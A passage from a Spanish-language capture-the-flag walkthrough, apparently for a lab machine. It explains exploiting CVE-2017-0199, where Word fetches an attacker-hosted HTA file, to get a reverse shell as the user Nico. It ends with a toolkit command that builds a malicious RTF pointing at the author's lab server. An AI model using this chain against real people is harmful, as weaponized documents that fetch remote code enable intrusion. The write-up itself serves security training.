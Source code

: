 ![imagen 2](Pasted image 20230728120331.png)

Con la confirmación de que `nico@megabank.com` es un usuario válido en el sistema, se concluye la enumeración del servicio SMTP.

## Consiguiendo Shell como Nico

Hasta ahora, la fase de reconocimiento ha proporcionado una serie de detalles valiosos sobre el sistema objetivo. Quizás el hallazgo más significativo fue el **contenido** del archivo `readme.txt` recuperado del servicio FTP, que incluía una solicitud para **enviar documentos en formato RTF** para su revisión y conversión. Este detalle sugiere una posible vulnerabilidad: la persona o el sistema que procesa estos documentos RTF podría ser susceptible a ciertos tipos de ataques.

Además, se ha confirmado que `nico@megabank.com` es un **usuario válido** del sistema, tal vez el destinatario indicado para estos documentos RTF. Considerando toda esta información, el siguiente paso lógico es investigar si existe alguna **vulnerabilidad** explotable que esté **asociada con el envío de documentos RTF**.

La investigación de este posible vector de ataque podría revelar una **oportunidad para ganar un shell en el sistema objetivo**. De ser así, el siguiente paso sería proceder con la explotación para conseguir una shell como el usuario Nico.

### Exploración de Vulnerabilidades - CVE-2017-0199

A través de la exploración de posibles vulnerabilidades, [se identifica el CVE-2017-0199](https://packetstormsecurity.com/files/142211/Microsoft-RTF-Remote-Code-Execution.html).

El **CVE-2017-0199** es una vulnerabilidad crítica que afecta a varias versiones de Microsoft Word y que permite la **ejecución remota de código**. Este CVE se aprovecha de la capacidad de Word para hacer **llamadas a Internet**. Un atacante puede crear un documento RTF (Formato de Texto Enriquecido) malicioso que, cuando se abre en una versión vulnerable de Word, llama a un servidor controlado por el atacante para recuperar un **archivo .hta** (Aplicación HTML).

Este archivo .hta es una especie de archivo ejecutable web que el atacante puede diseñar para llevar a cabo diversas acciones maliciosas, como la creación de una **shell inversa** en la máquina del objetivo. En este caso, nuestro **objetivo** es que, cuando Nico abra el documento RTF que le enviaremos, su versión vulnerable de Word haga una llamada GET a nuestro servidor y ejecute el archivo .hta que proporcionamos, generando una **shell inversa** que nos dará acceso a su sistema.

Esquema de ataque:

![imagen 2](Pasted image 20230728195311.png)

#### Creación del Archivo RTF Malicioso

Para crear este archivo **RTF malicioso**, utilizaremos una herramienta de la comunidad disponible en [este repositorio de GitHub](https://github.com/bhdresh/CVE-2017-0199). El script que nos interesa se llama `cve-2017-0199_toolkit.py` y está escrito en Python 2.

La ejecución de este script para generar nuestro archivo RTF malicioso sería la siguiente:

```bash
r1pfr4n@parrot> python2 cve-2017-0199_toolkit.py -M gen -w important.rtf -u http://10.10.14.11/revshell.hta -x 0
```
